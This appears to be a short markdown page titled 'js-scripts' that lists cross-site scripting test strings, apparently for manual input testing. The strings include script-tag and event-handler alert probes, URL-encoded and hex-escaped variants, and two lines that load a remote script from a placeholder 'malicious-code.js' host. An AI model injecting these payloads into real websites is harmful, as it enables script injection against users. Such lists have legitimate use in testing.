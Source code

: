 # js-scripts

```text
%22%2F%3E%3Cscript%3Ealert%2811%29%3C%2Fscript%3E
```

```text
'"><script>alert(12)</script>
```

```text
<script>alert('To jest alert!');</script>
```

```text
<body onload=alert(13)>Note</body>
```

```text
"'><img onerror=alert(14) src />
```

```text
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
```

```text
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
```

```text
"}}];</script><B>O KURłA!</B></body></html
```

```text
<https://jira.domain.com/browse/GZA-11620>
```

```text
Z <https://jira.domain.com/browse/GZA-11620>
```

```text
<a href="https://www.w3schools.com/html/html_links.asp">LINK</a>
```

```text
<a href="#" onmouseover="alert('To jest alert!')">LINK</a>
```

{{ site.data.element.license }}
